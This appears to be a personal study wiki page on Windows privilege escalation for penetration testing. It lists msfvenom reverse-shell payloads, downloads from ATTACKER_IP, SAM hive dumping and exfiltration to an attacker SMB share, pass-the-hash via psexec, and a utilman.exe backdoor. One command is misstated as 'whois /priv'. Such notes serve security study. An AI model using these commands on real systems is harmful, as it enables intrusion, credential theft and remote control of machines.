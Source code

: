 Notes about privilege escalation on [[Windows]].

## Windows Privileges

Run `whois /priv` to view current user's privileges.

A full list of privileges can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).

A list of privilege exploits can be found [here](https://github.com/gtworek/Priv2Admin).

## Scheduled Tasks

[[Windows/Enumeration#Scheduled Tasks]]

Check scheduled tasks. Can you overwrite the executable being ran?

## Services

[[Windows/Enumeration#Windows Services]]

Check services. Can you overwrite the service executable?

Generate reverse shell payload on attacking computer:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o payload.exe
```

Run server on attacking computer (defaults to port `8000`):

```bash
python3 -m http.server
```

Download payload on target computer:

```powershell
wget http://ATTACKER_IP:8000/payload.exe -O payload.exe
```

Replace server executable with malicious payload:

```powershell
move payload.exe C:\target\location\service-name.exe
```

Grant permission to executable:

```powershell
icacls C:\target\location\service-name.exe /grant Everyone:F
```

Set up reverse listener on attacking computer:

```bash
nc -lvnp ATTACKER_PORT
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <service-name>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## Unquoted service paths

[[Windows/Enumeration#Windows Services]]

Run `sc.exe qc <servicename`.

Check if the `BINARY_PATH_NAME` is missing quotes and spaces in path/filename, i.e. `C:\path\to\file name.exe` instead of `"C:\path\to\file name.exe"`. 

If the path has spaces and it is unquoted, you can exploit this. In this example, the service till try to find `file.exe` before it tries to find `file name.exe`, therefore you can put a malicious `file.exe` in the same folder.

## Insecure service permissions

Download [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to check service permissions. Run `accesschk64.exe -qlc <servicename>`. Check for `SERVICE_ALL_ACCESS` permission, which means you can rewrite service configurations.

Get a malicious executable on the server.

Reconfigure the service to run the executable file:

```powershell
sc.exe config <servicename> binPath= "C:\path\to\malicious\file.exe" obj= LocalSystem
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <servicename>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## AlwaysInstallElevated

[[Windows/Enumeration#AlwaysInstallElevated]]

Check if `AlwaysInstallElevated` is enabled.

Generate a malicious `.msi` on attacking computer, e.g. using `msvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f msi -o malicious.msi
```

Transfer the malicious `.msi`.

Execute on the target computer:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## SeBackupPrivilege / SeRestorePrivilege

[[Windows/Enumeration#SeBackupPrivilege / SeRestorePrivilege]]

Run `whoami /priv` and check for `SeBackupPrivilege` and `SeRestorePrivilege`.

On the target computer, backup SAM and System hashes:

```
reg save hklm\system C:\Users\User\system.hive
reg save hklm\sam C:\Users\User\sam.hive
```

On the attacking computer, use [impacket](https://www.kali.org/tools/impacket/) to set up a SAM server.

```bash
# Create a new directory
mkdir share

# Start the SAM server using same credentials as the target Windows user
python /opt/impacket/examples/smbserver.py -smb2support -username User -password password123 public share
```

On the target computer, copy the files to the attacking computer:

```
copy C:\Users\User\sam.hive \\ATTACKER_IP\public\
copy C:\Users\User\system.hive \\ATTACKER_IP\public\
```

On the attacking computer, use impacket to retrieve hashes:

```bash
python /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Check for Administrator's hash, i.e.

```
Administrator:500:HASH_PART_1:HASH_PART_2:::
```

Use Pass-the-Hash attack on Administrator's hashed password:

```shell
python /opt/impacket/examples/psexec.py -hashes HASH_PART_1:HASH_PART_2 administrator@TARGET_IP
```


## SeTakeOwnershipPrivilege

[[Windows/Enumeration#SeTakeOwnershipPrivilege]]

Run `whoami /priv` and check for `SeTakeOwnershipPrivilege`.

Take ownership of a application running with `SYSTEM` privileges, e.g. `utilman.exe` (built in accessibility application).

Take ownership of `utilman.exe`:

```
takeown /f C:\Windows\System32\Utilman.exe
```

Give the current user full permissions:

```
icacls C:\Windows\System32\Utilman.exe /grant User:F
```

Replace `utilman.exe` with `cmd.exe`:

```
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Trigger `utilman.exe` (`cmd.exe`):

1. Start menu -> User profile -> Lock
2. On the lock screen, click 'Ease of Access'.
3. A command prompt should open with `SYSTEM` privileges.

## SeImpersonatePrivilege/ SeAssignPrimaryTokenPrivilege

[[Windows/Enumeration#SeImpersonatePrivilege/ SeAssignPrimaryTokenPrivilege]]

## Resources

-   [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
-   [Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)
-   [RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)
-   [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
-   [Decoder's Blog](https://decoder.cloud/)
-   [Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
-   [Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Related

- [[Windows]]
- [[Windows/Enumeration]]